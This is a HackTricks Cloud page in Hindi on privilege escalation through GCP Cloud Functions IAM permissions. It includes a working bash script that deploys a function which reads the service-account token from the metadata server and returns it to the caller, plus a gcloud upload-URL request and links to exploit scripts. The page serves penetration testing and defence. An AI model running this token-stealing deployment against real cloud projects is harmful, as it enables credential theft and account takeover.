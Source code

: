 # GCP - Cloudfunctions Privesc

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## cloudfunctions

Cloud Functions के बारे में अधिक जानकारी:

{% content-ref url="../gcp-services/gcp-cloud-functions-enum.md" %}
[gcp-cloud-functions-enum.md](../gcp-services/gcp-cloud-functions-enum.md)
{% endcontent-ref %}

### `cloudfunctions.functions.create` , `cloudfunctions.functions.sourceCodeSet`_,_ `iam.serviceAccounts.actAs`

इन विशेषाधिकारों के साथ एक हमलावर **मनमाने (दुष्ट) कोड के साथ एक नया Cloud Function बना सकता है और इसे एक Service Account सौंप सकता है**। फिर, विशेषाधिकारों को बढ़ाने के लिए मेटाडेटा से Service Account टोकन लीक करें।\
फंक्शन को ट्रिगर करने के लिए कुछ विशेषाधिकारों की आवश्यकता हो सकती है।

इस विधि के लिए शोषण स्क्रिप्ट [यहां](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/blob/master/ExploitScripts/cloudfunctions.functions.create-call.py) और [यहां](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/blob/master/ExploitScripts/cloudfunctions.functions.create-setIamPolicy.py) मिल सकती हैं और प्रीबिल्ट .zip फ़ाइल [यहां](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/tree/master/ExploitScripts/CloudFunctions) मिल सकती है।

### `cloudfunctions.functions.update` , `cloudfunctions.functions.sourceCodeSet`_,_ `iam.serviceAccounts.actAs`

इन विशेषाधिकारों के साथ एक हमलावर **एक Function के कोड को संशोधित कर सकता है और यहां तक कि संलग्न सेवा खाते को भी संशोधित कर सकता है** जिसका लक्ष्य टोकन को एक्सफिल्ट्रेट करना है।

{% hint style="danger" %}
Cloud functions को तैनात करने के लिए आपको डिफ़ॉल्ट कंप्यूट सेवा खाते या उस सेवा खाते पर actAs अनुमतियों की भी आवश्यकता होगी जिसका उपयोग छवि बनाने के लिए किया जाता है।
{% endhint %}

कुछ अतिरिक्त विशेषाधिकार जैसे कि संस्करण 1 cloudfunctions के लिए `.call` अनुमति या फंक्शन को ट्रिगर करने के लिए `role/run.invoker` भूमिका की आवश्यकता हो सकती है।
```bash
# Create new code
temp_dir=$(mktemp -d)

cat > $temp_dir/main.py <<EOF
import subprocess

def main(request):
cmd = "curl -s -f -H 'Metadata-Flavor: Google' 'http://metadata/computeMetadata/v1/instance/service-accounts/default/token'"
result = subprocess.check_output(cmd, shell=True, text=True)
return result
EOF

echo "" > $temp_dir/requirements.txt

zip -r $temp_dir/function.zip $temp_dir/main.py $temp_dir/requirements.txt

# Update code
gcloud functions deploy <cloudfunction-name> \
--runtime python312 \
--source $temp_dir \
--entry-point main \
--service-account <sa>@$PROJECT_ID.iam.gserviceaccount.com \
--trigger-http \
--allow-unauthenticated

# Get SA token calling the new function code
gcloud functions call <cloudfunction-name>
```
{% hint style="danger" %}
यदि आपको त्रुटि `Permission 'run.services.setIamPolicy' denied on resource...` मिलती है, तो इसका कारण यह है कि आप `--allow-unauthenticated` पैरामीटर का उपयोग कर रहे हैं और आपके पास इसके लिए पर्याप्त अनुमतियाँ नहीं हैं।
{% endhint %}

इस विधि के लिए एक्सप्लॉइट स्क्रिप्ट [यहाँ](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/blob/master/ExploitScripts/cloudfunctions.functions.update.py) मिल सकती है।

### `cloudfunctions.functions.sourceCodeSet`

इस अनुमति के साथ आप एक **साइन किया हुआ URL प्राप्त कर सकते हैं ताकि एक फ़ाइल को एक फ़ंक्शन बकेट में अपलोड किया जा सके (लेकिन फ़ंक्शन का कोड नहीं बदलेगा, आपको इसे अभी भी अपडेट करना होगा)**

{% code overflow="wrap" %}
```bash
# Generate the URL
curl -X POST https://cloudfunctions.googleapis.com/v2/projects/{project-id}/locations/{location}/functions:generateUploadUrl \
-H "Authorization: Bearer $(gcloud auth application-default print-access-token)" \
-H "Content-Type: application/json" \
-d '{}'
```
{% endcode %}

हम attackers के दृष्टिकोण से केवल इस अनुमति की उपयोगिता के बारे में निश्चित नहीं हैं, लेकिन जानना अच्छा है।

### `cloudfunctions.functions.setIamPolicy` , `iam.serviceAccounts.actAs`

अपने लिए किसी भी पिछले **`.update`** या **`.create`** विशेषाधिकार को बढ़ाने के लिए दें।

### `cloudfunctions.functions.update`

केवल **`cloudfunctions`** अनुमतियों के साथ, बिना **`iam.serviceAccounts.actAs`** के आप **फंक्शन को अपडेट नहीं कर पाएंगे, इसलिए यह एक मान्य प्रिवेस्क नहीं है।**

### बकेट पर पढ़ने और लिखने की पहुंच

यदि आपके पास बकेट पर पढ़ने और लिखने की पहुंच है, तो आप कोड में परिवर्तनों की निगरानी कर सकते हैं और जब भी **बकेट में अपडेट होता है, आप अपने कोड के साथ नए कोड को अपडेट कर सकते हैं** ताकि Cloud Function का नया संस्करण प्रस्तुत किए गए बैकडोर कोड के साथ चल सके।

आप हमले के बारे में अधिक जानकारी देख सकते हैं:

{% content-ref url="gcp-storage-privesc.md" %}
[gcp-storage-privesc.md](gcp-storage-privesc.md)
{% endcontent-ref %}

हालांकि, आप इसका उपयोग तीसरे पक्ष के Cloud Functions को पूर्व-समझौता करने के लिए नहीं कर सकते क्योंकि यदि आप अपने खाते में बकेट बनाते हैं और इसे सार्वजनिक अनुमतियाँ देते हैं ताकि बाहरी प्रोजेक्ट उस पर लिख सके, तो आपको निम्नलिखित त्रुटि मिलती है:

<figure><img src="../../../.gitbook/assets/image.png" alt="" width="304"><figcaption></figcaption></figure>

{% hint style="danger" %}
हालांकि, इसका उपयोग DoS हमलों के लिए किया जा सकता है।
{% endhint %}

## संदर्भ

* [https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/](https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/)

{% hint style="success" %}
AWS हैकिंग सीखें और अभ्यास करें:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
GCP हैकिंग सीखें और अभ्यास करें: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks का समर्थन करें</summary>

* [**सदस्यता योजनाएँ**](https://github.com/sponsors/carlospolop) देखें!
* **💬 [**Discord समूह**](https://discord.gg/hRep4RUj7f) या [**टेलीग्राम समूह**](https://t.me/peass) में शामिल हों या **Twitter** पर हमें **फॉलो करें** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **हैकिंग ट्रिक्स साझा करें और [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) गिटहब रिपोजिटरी में PR सबमिट करें।**

</details>
{% endhint %}
